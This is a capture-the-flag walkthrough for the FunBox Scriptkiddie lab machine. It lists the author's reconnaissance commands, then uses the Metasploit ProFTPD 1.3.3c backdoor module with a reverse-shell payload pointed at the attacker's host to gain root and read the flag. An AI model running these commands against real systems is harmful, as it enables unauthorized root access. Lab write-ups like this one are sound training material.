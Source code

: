 # **FunBox_Scriptkiddie_Walkthrough

This box was created by **0815R2d2**

We start by running a netdiscover scan to get the IP address:

```sudo netdiscover -r <ip_address_range>```

<img src="netdiscover.png">

Then we run an nmap scan on 10.0.2.25: 

```nmap -A -v <ip_address>```

<img src="nmap.png">

Now, we see a lot of open ports here. My initial reaction was to attack the webpage, so I ran dirb and discovered the webpage was using wordpress. This prompted me run wpscan, but everything was updated and no vulnerabilities were found. I started poking around looking for known vulnerabilities on the other open ports, and I found that there was actually a metasploit module targeting the ftp service.

<img src="nmap_ftp.png">

```
msfconsole
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
```

<img src="metasploit_module.png">

For this module, you need to set the payload, so we use the command ```set payload cmd/unix/reverse``` and we set the options.

```
show options
set rhosts <ip_address_of_target>
set lhost <your_ip_address>
```

<img src="metaploit_module_ready.png">

Now we simply type ```exploit``` and **BOOM** we have a reverse shell.

<img src="reverse_shell.png">

When I get a reverse shell, I always start with ```whoami``` just see where we're at, and in this case, we're already root!

<img src="whoami.png">

Now, it's just a simple case of poking around the file system to find the flag, and in this case it's in the root directory.

```
ls -la
cd root
ls
cat root.txt
```

<img src="root_flag.png">

And that, folks, is why you always keep your services up to date.
